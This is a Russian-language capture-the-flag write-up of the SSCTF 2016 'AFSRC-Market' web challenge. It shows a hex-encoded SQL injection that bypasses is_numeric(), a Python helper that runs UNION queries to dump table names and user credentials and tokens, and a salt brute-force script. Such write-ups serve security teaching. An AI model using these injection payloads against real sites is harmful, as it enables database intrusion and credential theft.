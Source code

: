 SSCTF 2016 quals Write-up
=====
AFSRC-Market (Web, 500p)
-----

![Главная страница][main_page]

Просмотрев главную страницу становится понятно, что форма поиска не функционирует.
При попытке добавить какой-либо товар в корзину появляетя просьба войти на сайт, и
происходит редирект на страницу входа.
При нажатии на сами товары проиcходит переход по ссылке `https://security.alipay.com/`.

![Please login~~~~~~][alert_msg]

![Страница входа][login_page]

На странице входа требуется ввести логин, пароль и капчу. Попытки использовать различные
служебные символы не приводят к неожиданному поведению сайта.
Перейдем к странице регистрации. Попробуем зарегистрировать нового пользователя.

![Успешная регистрация][reg_success]

![Успешный вход][login_success]

Видим сообщение об успешной регистрации, после которого нас перенаправляют на страницу входа. Пытаемся зайти и... Успех!

![Главная страница после входа][main_page_after_login]

В шапке сайта появились ссылки на профиль пользователя и кнопка выхода. Форма поиска, как и раньше, не функционирует.
Заметим, что после авторизации, в cookie было добавлено единственное значение PHPSESSID - идентификатор сессии в PHP.

![Куки][cookies]

Теперь при попытке добавить товар в корзину осуществляется переход по ссылке вида
`http://edb24e7c.seclover.com/add_cart.php?id=XXX` где вместо `XXX` - какой-нибудь номер.
После этого окрывается домашняя страница, и больше ничего не происходит.
При попытке вставить в параметр `id` различные числа всегда появляется сообщение об успешном добавлении;
при вводе символов, не являющихся цифрами, выдается сообщение об ошибке. Также допустим ввод следующего типа: `id=0x123456`.
Это говорит о том, что параметр `id`, скорее всего, проверяетя перед вставкой в запрос с помощью PHP функции `is_numeric()`.

![Страница пользователя][user_page]

Теперь рассмотрим страницу пользователя. В шапке сайта появляеся ссылка `AddMoney` на
`http://edb24e7c.seclover.com/addmoney.php`, при переходе по которой выводится сообщение.
Также имеются 3 переключаемые вкладки: `Description`, `Additional Information`, `MyInfo`.
Первые две вкладки не так интересны, т.к. скорее всего являются статическими, а третья содержит форму
для добавления денег. Попробуем отправить форму и получим сообщение об ошибке.

![Форма пополнения счета][my_info]

![Сообщение об ошибке при отправке формы][add_money_error]

Также внимание привлекает
строка `The Last cost: 0`. Попробуем выяснить, откуда взялось значение `0`.
После небольшого исследования становится ясно, что при каждом запросе `/add_cart.php?id=XXX`, при указании верного числа в `id`, `The Last cost` принимает случайное ненулевое значение. Если `id=0x123456` или другому случайному hex, то значение обнуляется.
Итак, значение `The Last cost` каким-то образом зависит от параметра `id`, изменяемом при добавлении товара. Как уже было сказано, скорее всего значение параметра `id` проверяется с помощью функции `is_numeric()`, которая пропускает hex. Попробуем совершить простую "is_numeric bypass" sql-инъекцию через параметр `id`. Для генерации hex-значений воспользуемся `python3`
```python
>>> hex(int.from_bytes(b'1 AND 1=2 ; -- ', 'big'))
'0x3120414e4420313d32203b202d2d20'
```

![Простая sql-инъекция, обходящая is_numeric][try_simple_inj]

![Результат инъекции][simple_inj_result]

Как видно на скрине, значение стало пустым. Для удобства исследования напишем функцию на Python, которая будет
отправлять нужный запрос и получать новое значение со страницы пользователя.

```python
import requests
import re


URL = 'http://edb24e7c.seclover.com/'
regexp = r'<p>The Last cost: (.*?)</p>'
cookies = {'PHPSESSID': 'ckf3pes604sgtr3vpp3lrc62t4'}


def sql(query):
    hexed = hex(int.from_bytes(query.encode(), 'big'))
    requests.get(URL + '/add_cart.php', params={'id': hexed}, cookies=cookies)
    result = requests.get(URL + '/userinfo.php', cookies=cookies).text
    match_obj = re.search(regexp, result)
    if match_obj:
        return match_obj.group(1)

```

После чего приступим к запросам:

```python
>>> sql('1')
'1103'
>>> sql('1 AND 1=1 GROUP BY 1 ; -- ')
'4024'
>>> sql('1 AND 1=1 GROUP BY 2 ; -- ')
'7939'
>>> sql('1 AND 1=1 GROUP BY 3 ; -- ')
'501'
>>> sql('1 AND 1=1 GROUP BY 4 ; -- ')
'2059'
>>> sql('1 AND 1=1 GROUP BY 5 ; -- ')
'0'
>>> sql('1 AND 1=2 UNION SELECT "first", "second", "third", "fourth" ; -- ')
'third'
```

Итак, мы выяснили, что результатом запроса должна быть строка из четырех элементов, причем мы можем смотреть значение третьего элемента. Продолжим извлечение данных из базы.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, database(), 4 ; -- ')
'web05'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="web05"), 4 ; -- ')
'flag,user,user_goods'
```

Видим очень интересное название таблицы - `flag`.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="flag"), 4 ; -- ')
'id,flag'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT COUNT(*) FROM flag), 4 ; -- ')
'1'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id, ",", flag) FROM flag), 4 ; -- ')
'1,Tips:/2112jb1njIUIJ__tr_R/tips.txt'
```

Попробуем перейти на `/2112jb1njIUIJ__tr_R/tips.txt`.

> tips:
>
> 1、Congratulations for you !You finished 80%,Come on continue!
>
> 2、token=md5(md5(username)+salt) salt max lenght is 5(hexs)
>
> 3、Add the Money Get the Flag

Во второй подсказке говорится о каком-то токене. А чтобы получить флаг, нужно пополнить счет.
Вернемся к форме пополнение денег и посмотрим исходный код формы.

![Исходный код формы][form_source]

Видим, что в форме есть скрытый параметр `salt`. Осталось его подобрать, но для этого необходим `token`.
Вернемся к базе данных и посмотрим, какие данные хранятся в таблице пользователей.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="user"), 4 ; -- ')
'id,username,password,token,scores'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id,",",username,",",password,",",token,",",scores) FROM user WHERE username="a1ex01234"), 4 ; -- ')
'1086,a1ex01234,a1412c40bab245f4a17b675263cae6f7,d77716fc244dcdd08b5de5a82375e437,0'
```

Итак, мы получили `token`, который генерируется для каждого пользователя. Воспользовшись второй подсказкой подберем подходящую соль. Для этого опять воспользуемся `python3`, где для перебора будет полезна библиотека `itertools`.

```python
import itertools
from hashlib import md5


username = b'a1ex01234'
hex_char = '0123456789abcdef'
token = 'd77716fc244dcdd08b5de5a82375e437'

for salt in itertools.product(hex_char, repeat=5):
    salt = ''.join(salt)
    hash_val = md5(md5(username).hexdigest().encode() + salt.encode()).hexdigest()
    if hash_val == token:
        print('Salt =', salt)
        break
```

Запустим скрипт и увидим результат: `Salt = 8b76d`. Добавим его в форму пополнения счета.

![Измененная форма][salted_form]

![Флаг][flag_is]

Получаем флаг!

[main_page]: images/main_page.png "Главная страница"
[alert_msg]: images/alert_msg.png "Предупреждение"
[login_page]: images/ligon_page.png "Страница входа"
[reg_success]: images/reg_succ.png "Успешная регистрация"
[try_login]: images/login.png "Попытка войти"
[login_success]: images/login_succ.png "Вход прошел успешно"
[main_page_after_login]: images/main_page_after_login.png "Главная страница после входа"
[cookies]: images/cookies.png "Cookies"
[my_info]: images/my_info.png "Форма пополнения счета"
[user_page]: images/user_page.png "Страница пользователя"
[add_money_error]: images/add_money_error.png "Ошибка при пополнении счета"
[try_simple_inj]: images/inj.png "Попытка вставить простую sql-инъекцию"
[simple_inj_result]: images/inj_res.png "Результат sql-иъекции"
[form_source]: images/form_source.png "Исходный код формы пополнения счета"
[salted_form]: images/salted_form.png "Измененная форма"
[flag_is]: images/flag_is.png "Флаг"
